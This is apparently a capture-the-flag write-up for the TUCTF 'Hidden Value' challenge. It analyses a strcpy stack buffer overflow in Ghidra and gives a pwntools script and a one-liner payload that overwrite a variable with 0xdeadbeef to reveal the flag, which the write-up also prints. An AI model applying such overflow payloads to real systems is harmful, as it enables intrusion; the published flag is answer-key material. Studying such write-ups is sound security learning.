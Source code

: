 # Hidden Value

## Challenge Description
```text
Easy

There's a hidden value in this program, can you find it?
nc chal.tuctf.com 30011
```

## Protections
The NX is enabled so can't execute shellcode on the stack but it won't bother us
```console
┌──(vein㉿vein)-[~/tuctf/pwn_hidden-value]
└─$ checksec hidden-value 
[*] '/home/vein/tuctf/pwn_hidden-value/hidden-value'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

## First Look
We run the program and that what it looks like:
```console
┌──(vein㉿vein)-[~/tuctf/pwn_hidden-value]
└─$ ./hidden-value            
Enter your name: leo
Hello, leo
! Nothing special happened.
```
## Static Analysis in Ghidra

We open the program in Ghidra and we go directly to main to see what is happening
```c

undefined8 main(void)

{
  char local_78 [112];
  
  setvbuf(stdin,(char *)0x0,2,0);
  setvbuf(stdout,(char *)0x0,2,0);
  printf("Enter your name: ");
  fgets(local_78,100,stdin);
  greet_user(local_78);
  return 0;
}
```
We see that after we insert our name in the program,one function is called with it as function's input -> greet_user(local_78);

```c
void greet_user(char *param_1)

{
  char local_38 [44];
  int local_c;
  
  local_c = 0x12345678;
  strcpy(local_38,param_1);
  if (local_c == L'\xdeadbeef') {
    hidden_command();
  }
  else {
    printf("Hello, %s! Nothing special happened.\n",local_38);
  }
  return;
}
```

```c
void hidden_command(void)

{
  char local_78 [104];
  FILE *local_10;
  
  puts("Congratulations! You have executed the hidden command.");
  local_10 = fopen("flag","r");
  fgets(local_78,100,local_10);
  printf("The flag is: %s\n",local_78);
  return;
}
```
Here is the problem. We don't have immediately in the main a buffer overflow but in the buffer of main will cause a bof in greet_user() cause in the
first one the buffer size is 112 and the others is 44. So after 44 bytes we have a bof and we can overwrite the value of local c to deadbeef to execute
hidden_command() funtion that will give us the flag

## Exploitation

Here is the python script

```python
#!/usr/bin/env python3
from pwn import *

p = process('./hidden-value')  # local now cause i'm doing the writeup long time after the ctf :) 
#p = remote('chal.tuctf.com', 30011) 
param = 0xdeadbeef # the word that we want to inject to execute hidden_command() and take the flag
padding = b'a' * 44

payload = flat(
	padding,
	param
	)

p.sendline(payload)
print(p.recvall())
```

```console
┌──(vein㉿vein)-[~/tuctf/pwn_hidden-value]
└─$ ./exploit.py
[+] Starting local process './hidden-value': pid 2908
[+] Receiving all data: Done (109B)
[*] Stopped process './hidden-value' (pid 2908)
b'Enter your name: Congratulations! You have executed the hidden command.\nThe flag is: fake{fl4g_f0r_t3st1ng}\n\n'
```

I also made manual payload for fun
```cmd
┌──(vein㉿vein)-[~/tuctf/pwn_hidden-value]
└─$ python2 -c print"'a' * 44 + '\xef\xbe\xad\xde'"> payload

┌──(vein㉿vein)-[~/tuctf/pwn_hidden-value]
└─$ ./hidden-value < payload                                
Enter your name: Congratulations! You have executed the hidden command.
The flag is: fake{fl4g_f0r_t3st1ng}

zsh: segmentation fault  ./hidden-value < payload
```

The original flag was: TUCTF{pr4cti4l_buffer_overrun}








